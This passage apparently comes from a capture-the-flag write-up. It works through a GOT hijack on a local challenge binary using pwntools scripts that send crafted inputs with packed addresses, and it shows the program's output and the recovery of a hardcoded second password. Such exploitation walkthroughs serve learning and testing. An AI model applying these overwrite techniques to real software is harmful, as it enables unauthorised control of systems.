 ```python
from pwn import *
# The binary asked Name and Password
Filename ='./something' # Put filename
def gotHijack() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    p.interactive()
gotHijack()
```

- Output

```bash
b'Enter your name:\n'
b'Now Enter password: \n'
[*] Switching to interactive mode
aaaaaaaaaa\x1c\x04
Congrats on getting past the first verification step. Here is something very useful
0xf7d8a0a0
Enter 2nd Password: $ dipesh
[*] Got EOF while reading in interactive
$
```

We see our first input getting printed(the first fgets input) and after that,
some hex value being printed and its telling us its very useful . And after that
we are being asked to input 2nd password. Judging from what we know, this 2nd
password is probably being asked by the `verification2` function call.

It seems that the string that was supposed to be printed by the puts call is
being passed as an argument after that GOT hijack, And since the function prints
the argument passed to it(observed in the objdump), thats what seems to be
happening.

Also we dont know what this mysterious hex value is and what we need to give as
2nd password. The 2nd password is probably there in the binary itsef
([from here](#password-cmp)). Now if we see the output of our
[strings](#strings) command, we can guess what the password could possibly be.
Since most of the other things seem to be printed , a reasonable guess for
password would be the string '250382'. And when we try it, we do succeed.

```python
from pwn import *
# The binary asked Name and Password
Filename ='./something' # Put filename
def gotHijackAndPassword() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    [print(p.recvline()) for i in range(0,3)]
    p.sendline("250382\x00")
    p.interactive()
gotHijackAndPassword()
```
